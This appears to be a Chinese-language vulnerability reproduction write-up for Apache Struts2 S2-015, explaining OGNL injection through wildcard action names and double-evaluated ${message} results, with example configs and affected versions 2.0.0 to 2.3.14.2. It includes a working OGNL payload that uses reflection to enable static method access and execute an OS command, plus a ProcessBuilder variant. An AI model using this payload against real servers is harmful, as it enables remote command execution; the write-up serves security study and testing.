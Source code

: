 
## 漏洞详情

http://struts.apache.org/docs/s2-015.html


## 原理

漏洞产生于配置了 Action 通配符 *，并将其作为动态值时，解析时会将其内容执行 OGNL 表达式，例如：

	<package name="S2-015" extends="struts-default">
	    <action name="*" class="com.demo.action.PageAction">
	        <result>/{1}.jsp</result>
	    </action>
	</package>

上述配置能让我们访问 name.action 时使用 name.jsp 来渲染页面，但是在提取 name 并解析时，对其执行了 OGNL 表达式解析，所以导致命令执行。在实践复现的时候发现，由于 name 值的位置比较特殊，一些特殊的字符如 ```/ " \``` 都无法使用（转义也不行），所以在利用该点进行远程命令执行时一些带有路径的命令可能无法执行成功。

还有需要说明的就是在 Struts 2.3.14.1 - Struts 2.3.14.2 的更新内容中，删除了 SecurityMemberAccess 类中的 setAllowStaticMethodAccess 方法，因此在 2.3.14.2 版本以后都不能直接通过 #_memberAccess['allowStaticMethodAccess']=true 来修改其值达到重获静态方法调用的能力。

这里为了到达执行命令的目的可以用 kxlzx 提到的调用动态方法 (new java.lang.ProcessBuilder('calc')).start() 来解决，另外还可以借助 Java 反射机制去间接修改：

可以构造 Payload 如下：

	${#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream()),#q}

![](1.jpg)

除了上面所说到的这种情况以外，S2-015 还涉及一种二次引用执行的情况：

	<action name="param" class="com.demo.action.ParamAction">
	    <result name="success" type="httpheader">
	        <param name="error">305</param>
	        <param name="headers.fxxk">${message}</param>
	    </result>
	</action>

这里配置了 <param name="errorMessage">${message}</param>，其中 message 为 ParamAction 中的一个私有变量，这样配置会导致触发该 Result 时，Struts2 会从请求参数中获取 message 的值，并在解析过程中，触发了 OGNL 表达式执行，因此只用提交 %{1111*2} 作为其变量值提交就会得到执行。这里需要注意的是这里的二次解析是因为在 struts.xml 中使用 ${param} 引用了 Action 中的变量所导致的，并不针对于 type="httpheader" 这种返回方式。

## 影响版本

影响版本: 2.0.0 - 2.3.14.2

![](2.png)